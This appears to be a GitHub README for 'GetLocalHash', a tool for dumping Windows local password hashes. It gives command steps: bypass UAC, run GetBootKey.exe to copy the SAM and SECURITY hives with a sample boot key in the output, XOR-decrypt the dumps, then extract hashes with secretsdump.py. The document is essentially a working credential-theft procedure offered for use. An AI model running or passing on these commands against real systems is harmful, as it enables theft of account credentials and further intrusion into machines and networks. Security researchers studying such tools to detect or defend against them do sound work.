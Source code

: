 # GetLocalHash
A Way Dump Windows Local Hash

1) need bypassUac  
   GetBootKey.exe "c:\Users\public" "key"  
   `[*]BootKey is:ac2d10172afa9c3f91b09a4bcb8813a6`  
   `[*]File Dump Done: c:\Users\public\SAM`  
   `[*]File Dump Done: c:\Users\public\SECURITY`  
3) decrypt  
   python xorencrypt.py sam.dat  
   python xorencrypt.py SECURITY.dat  

4) getHash  
   python secretsdump.py -sam c:\Users\public\sam -security c:\Users\public\SECURITY -bootkey ac2d10172afa9c3f91b09a4bcb8813a6 LOCAL
   
   
   
